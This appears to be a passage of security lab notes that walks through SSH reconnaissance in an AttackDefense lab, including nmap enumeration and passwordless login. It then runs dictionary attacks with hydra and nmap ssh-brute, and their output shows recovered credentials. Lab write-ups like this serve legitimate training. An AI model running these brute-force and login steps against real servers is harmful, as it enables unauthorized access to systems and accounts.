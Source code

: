 # SSH

> SSH, or Secure Shell Protocol, is a network protocol that allows secure communication between two devices. It is commonly used to remotely access and control servers, allowing users to securely transfer files, execute commands, and manage remote systems. SSH uses encryption to protect sensitive information and prevent unauthorized access, making it a popular choice for secure remote access in the IT industry.

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 -sV
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 12:57 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
MAC Address: 02:42:C0:29:F6:03 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds
```

We have OpenSSH running on port 22 for SSH.

We can use netcat to grab the banner:

```sh
root@attackdefense:~# nc 192.41.246.3 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6
```

or we can simply use this command to connect to SSH:

```sh
root@attackdefense:~# ssh root@192.41.246.3
```

To enumerate all the algorithms we can use Nmap:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh2-enum-algos
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:15 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000058s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh2-enum-algos: 
|   kex_algorithms: (6)
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

these are the algorithms that can be used to get that key.

Now to get the RSA key we can use the following command:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh-hostkey --script-args ssh_hostkey=full
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:20 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000064s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC1fkJK7F8yxf3vewEcLYHljBnKTAiRqzFxkFo6lqyew73ATL2Abyh6at/oOmBSlPI90rtAMA6jQGJ+0HlHgf7mkjz5+CBo9j2VPu1bejYtcxpqpHcL5Bp12wgey1zup74fgd+yOzILjtgbnDOw1+HSkXqN79d+4BnK0QF6T9YnkHvBhZyjzIDmjonDy92yVBAIoB6Rdp0w7nzFz3aN9gzB5MW/nSmgc4qp7R6xtzGaqZKp1H3W3McZO3RELjGzvHOdRkAKL7n2kyVAraSUrR0Oo5m5e/sXrITYi9y0X6p2PTUfYiYvgkv/3xUF+5YDDA33AJvv8BblnRcRRZ74BxaD
|   ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB0cJ/kSOXBWVIBA2QH4UB6r7nFL5l7FwHubbSZ9dIs2JSmn/oIgvvQvxmI5YJxkdxRkQlF01KLDmVgESYXyDT4=
|_  ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKuZlCFfTgeaMC79zla20ZM2q64mjqWhKPw/2UzyQ2W/
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

We got the full RSA host key.

To check for weak passwords we can utilize the following script:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh-auth-methods --script-args="ssh.user=student"
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:23 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000048s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|_  Supported authentication methods: none_auth
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

Here we can see that there is no supported authentication for student which is dangerous.

Let's try it for admin:

```sh
root@attackdefense:~# nmap 192.41.246.3 -p22 --script=ssh-auth-methods --script-args="ssh.user=admin"
Starting Nmap 7.70 ( https://nmap.org ) at 2023-12-28 13:26 UTC
Nmap scan report for target-1 (192.41.246.3)
Host is up (0.000051s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
MAC Address: 02:42:C0:29:F6:03 (Unknown)
```

So here we can see it needs authentication.

Well, we saw that `student` needs no authentication. So let's try to connect with `student`:&#x20;

```sh
root@attackdefense:~# ssh student@192.41.246.3
Welcome to attack defense ssh recon lab!!
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-153-generic x86_64)
.
.
student@victim-1:~$ whoami
student
```

We are in.

## SSH Dictionary Attack

we can use hydra tool for this type of attack like this:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -l student -P /usr/share/wordlists/rockyou.txt 192.143.106.3 22 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 13:43:49
[ERROR] Unknown service: 22
root@attackdefense:~# hydra -l student -P /usr/share/wordlists/rockyou.txt 192.143.106.3 ssh
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-28 13:43:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.143.106.3:22/
[STATUS] 177.00 tries/min, 177 tries in 00:01h, 14344223 to do in 1350:41h, 16 active
<strong>[22][ssh] host: 192.143.106.3   login: student   password: friend
</strong>1 of 1 target successfully completed, 1 valid password found
</code></pre>

Here we found the password for the student. Now we can use that to connect to SSH:

```sh
root@attackdefense:~# ssh student@192.143.106.3   
Ubuntu 16.04.5 LTS
student@192.143.106.3's password: 
.
.
student@victim-1:~$ whoami
student
```

Logged in successfully.

Let's try to get login details for the administrator using Nmap:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# echo "administrator" > user    
root@attackdefense:~# nmap 192.143.106.3 -p22 --script=ssh-brute --script-args userdb=/root/user 
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
<strong>|     administrator:sunshine - Valid credentials
</strong>|_  Statistics: Performed 28 guesses in 9 seconds, average tps: 3.1
MAC Address: 02:42:C0:8F:6A:03 (Unknown)
</code></pre>

Here we also got the password for the administrator. Let's connect to SSH now:

